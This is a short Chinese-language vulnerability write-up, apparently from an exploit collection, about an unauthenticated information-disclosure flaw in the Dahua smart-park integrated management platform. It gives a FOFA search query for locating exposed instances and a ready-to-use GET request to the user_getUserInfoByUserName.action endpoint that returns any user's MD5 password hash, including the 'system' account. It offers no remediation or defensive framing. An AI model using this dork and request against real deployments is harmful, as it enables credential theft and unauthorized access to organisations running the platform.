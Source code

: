 # 大华智慧园区任意密码读取攻击

1.漏洞描述

大华智慧园区综合管理平台是一款综合管理平台，具备园区运营、资源调配和智能服务等功能。平台意在协助优化园区资源分配，满足多元化的管理需求，同时通过提供智能服务，增强使用体验。由于该平台未对接口权限做限制，攻击者可以从`user_getUserInfoByUserName.action`接口获取任意用户密码(MD5格式)

2.搜索语法

```plain
fofa：app="dahua-智慧园区综合管理平台"
```

3.漏洞复现

```plain
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
```

响应包显示如下

![image-20240613202058959](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240613202058959.png)